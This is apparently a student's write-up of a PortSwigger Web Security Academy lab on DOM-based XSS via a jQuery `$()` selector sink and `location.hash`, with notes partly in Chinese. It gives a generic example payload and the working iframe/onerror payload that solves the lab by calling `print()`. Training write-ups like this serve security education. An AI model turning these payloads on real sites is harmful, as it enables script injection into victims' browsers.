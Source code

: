 
---
## Lab: DOM XSS in jQuery selector sink using a hashchange event:four:
* Description: This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property. 
* Goal: To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

### [Background - DOM XSS in jQuery](https://portswigger.net/web-security/cross-site-scripting/dom-based)
簡單來說，有些頁面支援`jQuery`的`location.hash`功能，也就是在URL的末端添加`#XXX`，前端會自動scrolling到對應的位置(就是Github那樣)，文章中有提到如果hash是使用者可以控制的，攻擊者可以使用它來將 XSS 向量注入 `$()` seletor接收器。 較新版本的`jQuery`已通過阻止使用者在輸入以hash character(#)開頭時將 HTML 注入seletor來修補此特定漏洞。
Payload for example: `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">`

### Recon
1. Find the specific place to inject
![](https://i.imgur.com/hYcpZBn.png)

2. Follow the background reference to create the new payload

### Exp - `jQuery location.hash` vulnerability
Payload: `<iframe src="https://0aab00ee04037bdb802cc6c600230039.web-security-academy.net/#" onload="this.src+='<img src=xxx onerror=print()>'"></iframe>`
:::spoiler Success Screenshot
![](https://i.imgur.com/nOSouuD.png)
:::

### Reference
[Lab DOM XSS in jQuery Selector Sink Using a Hash Change Event](https://youtu.be/k4kpc0b8p5U)

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)